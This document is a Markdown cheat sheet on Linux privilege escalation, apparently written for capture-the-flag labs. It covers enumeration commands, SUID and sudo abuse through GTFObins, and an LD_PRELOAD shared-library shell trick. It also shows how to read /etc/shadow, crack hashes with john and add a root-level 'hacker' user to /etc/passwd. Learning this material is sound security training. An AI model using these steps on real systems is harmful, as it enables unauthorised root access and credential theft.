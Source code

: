 - ## *Enumeration Commands*
	- `hostname` returns the host name of the target.
	- `uname -a` returns information about the kernel.
	- `cat /proc/version` returns information about system processes.
	- `cat /etc/issue` returns information about the system.
	- `ps` returns running processes.
		- `ps -A`: returns all running processes.
		- `ps axjf`: returns the process tree.
		- `ps aux`: returns processes for all users.
	- `env` returns environment variables. (check the `PATH` variable).
	- `sudo -l` returns list of all commands that can be run by the user with sudo.
	- `id` returns user's privilege level and groups. (`id <user>`)
	- `cat /etc/passwd | cut -d ":" -f 1` returns users on the system.
	- `history` returns commands that were previously ran.
	- `ifconfig` and `ip route`
	- ### Netstat
		- Returns existing connections.
		- `netstat -ano` **MOST USED**, `-a` all sockets, `-n` do not resolve names, and `-o` display timers.
		- `netstat -a` returns all listening ports and connections.
		- `netstat -at` or `netstat -au` returns `TCP or UDP` connections.
		- `netstat -l` returns ports on listening mode.
		- `netstat -s` returns network usage statistics.
		- `netstat -tp` returns connection with service name and `PID` information
		- `netstat -i` returns interface statistics.
	- ### Find
		- #### Add `-type f 2>/dev/null` to redirect errors and have clean o/p
		- `find . -name flag1.txt` searches the current directory for file named `flag1.txt`.
		- `find /home -name flag1.txt` searches the home directory for the file named `flag1.txt`.
		- `find / -type d -name config` searches the root directory for a directory named config.
		- `find / -type f -perm 0777` searches for files with 777 permissions (readable, writable, executable by all).
		- `find / -perm a=x` searches for executable files.
		- `find /home -user frank` searches for files for user frank.
		- `find / -mtime 10` searches for files that were modified last 10 days.
		- `find / -atime 10` searches for files that were accessed last 10 days.
		- `find / -cmin -60` searches for files changed within the last hour.
		- `find / -amin -60` searches for files accesses within the last hour.
		- `find / -size 50M` searches for files with a 50 MB size.
			- `find / -size +50M` searches for files with a size more than 50 MB.
			- `find / -size -50M` searches for files with a size less than 50 MB.
		- `find / -writable -type d 2>/dev/null` searches for world-writable files.
		- `find / -perm -222 -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o w -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o x -type d 2>/dev/null` searches for world-executable directories.
		- `find / -name perl*` or `find / -name python*` or `find / -name gcc*` searches for development tools and supported languages.
		- #### **IMPORTANT**
			- `find / -perm -u=s -type f 2>/dev/null` searches for files with `SUID` bit set which allows us to run the file with the privilege of the file owner.
	- ### Tools
		- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
		- [LinEnum](https://github.com/rebootuser/LinEnum)
		- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
		- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
		- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
- ## *Kernel Exploitation*
	- ### Steps
		- Identify the kernel version.
		- Search and find an exploit code for the kernel version. [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
		- Run the exploit.
	- ### **NOTE** 
		- A failed kernel exploit could lead to a system crash.
- ## *Sudo* 
	- [GTFObins](https://gtfobins.github.io/)
	- ### **Using Application functions**
		- Some applications may not have an sudo exploit like `Apache2` server, a "hack" can be used to leak information using a function of the application. In case of `Apache2` the `-f` option specifies an alternative configuration file.
			- Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the file.
	- ### **Using LD_PRELOAD**
		- A function that allows any program to use shared libraries.
		- If the `env_keep` option is enabled, we can generate a shared library which will be loaded and executed before the program is run.
		- #### Steps
			- Check for LD_PRELOAD (with the `env_keep` option)
			- Write a simple C code compiled as a shared object (.so extension) file.
			- Run the program with sudo rights and the LD_PRELOAD option pointing to our `.so` file.
		- C code:
			- ![](spawn-shell.png)
		- Compile the code using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
			- Then use the found application that can be ran with Sudo, for example `find` like so `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
- ## SUID
	- [GTFObins](https://gtfobins.github.io/)
	- If the SUID or SGID bits are set, allows the files to be executed with the permissions of the file owner or the group owner.
	- `find / -type f -perm 04000 -ls 2>/dev/null` or `find / -type f -perm -u=s 2>/dev/null` lists the files that have SUID or SGID bits set.
	- #### *Using Nano*
		- `unshadow` tool to create a file crackable by `john`, the tool needs both `/etc/shadow` and `/etc/passwd` files.
			- `unshadow passwd.txt shadow.txt > passwords.txt`
		- Adding a new user that has root privileges.
			- Use `openssl passwd -1 -salt THM password1` to get a the hash value of the password `password1` with a salt of `THM`
			- Use the findings in `GTFObins` to add the user to the `/etc/passwd` file like so `hacker:<hash>:0:0:root:/root:/bin/bash`
			